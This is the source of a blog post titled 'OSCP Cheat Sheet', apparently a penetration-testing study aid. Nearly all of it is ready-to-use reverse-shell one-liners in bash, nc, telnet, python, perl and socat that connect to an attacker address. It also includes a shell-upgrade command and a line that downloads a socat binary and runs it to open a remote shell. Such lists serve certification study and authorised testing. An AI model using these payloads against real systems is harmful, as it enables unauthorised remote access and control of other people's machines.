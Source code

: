 ```yaml
---
layout: post
title: OSCP Cheat Sheet
date: 2018-10-01 0:0:0 +0800
categories: pentesting
tags: pentesting enumeration network
img: "https://www.offensive-security.com/wp-content/uploads/2016/01/what-is-oscp-post-v8.png" 
---
```



# Reverse Shells

```bash
# bash
bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

#sh
rm -f /tmp/p; mknod /tmp/p p && nc <attacker-ip> 4444 0/tmp/p

#telnet
rm -f /tmp/p; mknod /tmp/p p && telnet <attacker-ip> 80 0/tmp/p

# python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# perl 
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Elevate shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# attacker listener
socat file:`tty`,raw,echo=0 tcp-listen:4444  

# victim reverse shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host-ip>:4444  

# download and execute in one line
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host-ip>:4444  
```
